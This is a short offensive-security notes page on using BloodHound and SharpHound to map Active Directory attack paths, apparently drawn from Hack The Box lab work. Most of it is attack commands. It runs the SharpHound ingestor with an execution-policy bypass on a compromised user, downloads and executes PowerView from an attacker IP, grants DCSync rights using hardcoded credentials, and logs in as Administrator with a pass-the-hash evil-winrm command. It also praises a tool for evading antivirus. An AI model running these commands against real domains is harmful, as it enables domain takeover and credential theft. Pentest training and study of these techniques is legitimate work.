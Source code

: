 # BloodHound

## Brief

BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attacks can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify.

{% embed url="https://bloodhound.readthedocs.io/en/latest/index.html" %}

## Usage

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux

```bash
neo4j console
# creds = neo4j : neo4j
# forgotten password
locate neo4j | grep auth

bloodhound
```

Now bloodhound needs data, and it does so by using an ingestor called SharpHound, you should download, move and execute that script on your domain user that you compromised by typing :

```powershell
powershell -ep bypass
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain $TARGETDOMAIN -ZipFileName bloodhound.zip
```

Once you finish that, copy the zip file to your system, and feed it to bloodhound through drag and drop or import data functionality.

***

## WriteDACL

```bash
iex(new-object net.webclient).downloadstring('http://10.10.14.4:9090/PowerView.ps1')

$pass = convertto-securestring 'abc123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\john', $pass)

Add-DomainObjectAcl -Credential $cred -TargetIdentity htb.local -Rights DCSync

Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync

evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

## RustHound

{% embed url="https://github.com/OPENCYBER-FR/RustHound" %}
No AV detection and **cross-compiled**.
{% endembed %}
